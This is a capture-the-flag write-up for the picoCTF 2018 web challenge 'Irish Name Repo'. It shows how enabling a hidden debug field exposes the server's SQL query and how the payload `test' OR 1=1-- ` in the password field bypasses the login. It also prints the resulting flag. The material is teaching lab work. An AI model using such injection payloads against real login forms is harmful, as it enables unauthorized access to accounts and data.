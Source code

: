 # Irish Name Repo (web, 200pts)

> There is a website running at http://2018shell.picoctf.com:11899. Do you think you can log us in? Try to see if you
> can login!

The challenge asks you to login to the website, so click through to the admin login (`/login.html`).

If you inspect the webpage you'll see a hidden `debug` form field that's sent when you login:

```html
<fieldset>
    <div class="form-group">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username" class="form-control">
    </div>
    <div class="form-group">
        <label for="password">Password:</label>
        <div class="controls">
            <input type="password" id="password" name="password" class="form-control">
        </div>
    </div>
    <input type="hidden" name="debug" value="0">

    <div class="form-actions">
        <input type="submit" value="Login" class="btn btn-primary">
    </div>
</fieldset>
```

Configure [Burp Suite](https://portswigger.net/burp) to capture your browser traffic (or simply use your browser
developer tools) to make the process of editing and replaying requests easier.

Try to login with any credentials (e.g. `test`) and check the response:

```
HTTP/1.1 200 OK
Content-type: text/html; charset=UTF-8

<h1>Login failed.</h1>
```

There's nothing helpful here, so change the `debug` field to `1` (`Right-click > Send to Repeater` in Burp Suite will
add the request to the Repeater where you can easily change and resend the request) and send the modified request:

```
HTTP/1.1 200 OK
Content-type: text/html; charset=UTF-8

<pre>username: test
password: test
SQL query: SELECT * FROM users WHERE name='test' AND password='test'
</pre><h1>Login failed.</h1>
```

The response shows us that it's communicating with an SQL database and gives us the command that was executed - this
looks like the application could be subject to a classic
[SQL injection attack](https://www.owasp.org/index.php/SQL_Injection).

Change the password to `test' OR 1=1-- `:
* `OR 1=1` will cause the password check to always evaluate to `true`
* `-- ` indicates that the text that follows is a comment (needed because a closing quote `'` is added after the
password input)

Send the request to get the flag:

```
HTTP/1.1 200 OK
Content-type: text/html; charset=UTF-8

<pre>username: test
password: test' OR 1=1-- 
SQL query: SELECT * FROM users WHERE name='test' AND password='test' OR 1=1-- '
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{con4n_r3411y_1snt_1r1sh_9cbc118f}</p>
```
